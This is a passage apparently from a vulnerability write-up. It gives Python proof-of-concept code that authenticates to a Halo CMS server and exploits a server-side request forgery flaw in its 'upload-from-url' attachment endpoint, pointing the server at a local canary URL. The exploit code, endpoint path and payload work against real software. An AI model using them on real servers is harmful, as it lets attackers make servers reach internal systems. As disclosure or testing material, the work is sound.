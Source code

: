 ```python
        
        response = self.session.post(
            f"{self.base_url}/login",
            data=login_data,
            headers=headers,
            allow_redirects=False
        )
        
        return self.verify_authentication(response)
        
    def verify_authentication(self, response):
        """Verify successful authentication via redirect analysis"""
        if response.status_code in [302, 303]:
            location = response.headers.get('Location', '')
            if any(path in location for path in ['/console', '/uc', '/dashboard']):
                print(f"✅ Login successful! Redirected to: {location}")
                self.authenticated = True
                return True
        
        print("❌ Authentication failed - no redirect to protected area")
        return False
```

### SSRF Exploitation

With authentication established, SSRF exploitation becomes straightforward:

```python
def test_upload_ssrf(self):
    """Exploit SSRF via upload-from-url endpoint"""
    
    if not self.authenticated:
        print("❌ Authentication required for upload SSRF")
        return False
        
    # Start canary server for definitive SSRF proof
    canary_url = f"http://host.docker.internal:{self.canary_port}/upload-ssrf-test"
    
    # Construct SSRF payload
    payload = {
        "url": canary_url,
        "filename": "ssrf-test.txt",
        "policyName": "default-policy"
    }
    
    # Target User Center upload endpoint
    endpoint = "/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"
    
    headers = {
        'Content-Type': 'application/json',
        'Accept': 'application/json'
    }
    
    print(f"🎯 Testing: POST {endpoint}")
    print(f"🎯 Payload: url={canary_url}")
    
    # Execute SSRF attack
    response = self.session.post(
        f"{self.base_url}{endpoint}",
        json=payload,
        headers=headers
    )
    
    # Wait for canary server hits
```